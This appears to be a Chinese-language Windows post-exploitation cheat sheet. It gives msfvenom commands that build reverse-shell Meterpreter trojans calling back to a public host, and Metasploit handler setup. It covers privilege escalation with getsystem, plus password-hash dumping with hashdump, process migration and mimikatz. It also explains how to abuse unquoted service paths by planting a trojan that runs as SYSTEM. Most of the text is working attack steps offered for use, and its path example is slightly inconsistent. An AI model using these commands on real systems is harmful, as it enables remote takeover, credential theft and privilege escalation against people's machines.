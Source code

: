    过程我就不说了，大概思路就是msf生成一个exe木马反弹到公网主机
    然后最好是目标没有杀软（AV）先试试meterpreter自带的提权不行的话就换其他exp然后读hash
    破解hash就ok，如果读不出hash就进行进程迁移。
    
    具体如下
    1.msfvenom -p windows/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o msf.exe
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o x64.exe
    2.use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lport 5200
      set lhost 外网IP（nat关系看情况）
      exploit     
    3.shell（network service权限）执行 最好system权限执行
    4.getsystem —> getuid
    5.hashdump (如果不行则换进程)
      migrate pid —> hashdump
    6.load mimikatz  mimikatz_command -f samdump::hashes
      mimikatz_command -f sekurlsa::searchPasswords
    
    `无引号服务路径漏洞`
    从注册表中查看注册的服务，你会看到“ImagePath”的值是
    C:\Windows\system service\service.exe
    注册表中安全应为
    "C:\Windows\system service\service.exe"
    不安全的路径为
    C:\Windows\system service\service.exe
    当Windows尝试启动这个服务时，它会按照下面的顺序寻找可执行文件，并运行第一个找到的：
    C:/windows/ysx soft/x.exe 原注册表路径
    C:/windows/ysx.exe  CreateProcess函数读取结果
    
    查找命令
    运行下面的命令后，所有没有加双引号的服务将会被列出来
    wmic service get name,displayname,pathname,startmode |findstr /i "auto"|findstr /i /v "c:\windows\\" |findstr /i /v """
    
    icacls x.exe  是否为EveryOne权限 “F”代表完全控制。“CI”代表从属容器将继承访问控制项。“OI”代表从属文件将继承访问控制项。
    
    如果是 则可以msf生成木马与存在漏洞的应用程序名称一致放在ysx目录下以管理员或系统权限启动这个应用
    
